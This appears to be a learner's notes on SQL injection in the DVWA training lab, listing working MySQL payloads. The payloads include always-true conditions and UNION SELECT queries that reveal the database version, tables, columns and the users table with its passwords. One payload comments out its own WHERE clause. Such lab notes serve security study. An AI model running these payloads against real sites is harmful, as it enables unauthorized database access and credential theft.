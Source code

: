 # DVWA sql injection

Some basic things to know

**Error Based Injection**
- exploited through triggering errors in the database when invalid inputs are passed to it <br>[Error Based](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql)

**Union-Based Injection**
- Allows an attacker to extract information from the database by extending the results returned by the original query <br>[Union-Based Injection](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)

**Blind Injection**
- Paritial blind
    - queries that return HTTP Status Codes, or other markers in the HTML response, that indicate true or false statements <br>[Partial-Blind/Full-Blind](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)
- Full blind
    - [Partial-Blind/Full-Blind](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)

## DVMA explained in 
> [DVWA SQL Injection Exploitation Explained (Step-by-Step)](https://www.golinuxcloud.com/dvwa-sql-injection/#Step_1_Setup_DVWA_for_SQL_Injection)

## DVMA solutions
> https://bughacking.com/dvwa-ultimate-guide-first-steps-and-walkthrough/#SQL_Injection_Blind

## Security low

### Using basic injection
    Id is get from the web site parameter
    By executing simple sql such as
    Select (database attributes) from (database table) where (param) = '(value)';

### Always true
    %' or '1'='1'
    %' or '0'='0'
    any thing that is always true

    The percent sign does not equal anything and will be false so it the second part will be ran '1'='1'

    This will return all the users inside the database

### Database version

Similar to alway true

    %' or 0=0 union select null, version() #
    This show which database version it is running on at the end

### Display db user
    %' or 0=0 union select null, user() #

## Display all tables
    %' or 0=0 union select null, table_name from information_schema.tables #

## Display all the user table
    %' or 0=0 union select null, table_name from information_schema.tables # where table_name like 'user%'#

## Display all the columns
    %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #

## Display column fields
    %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #

## sql injection in general
> [Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)

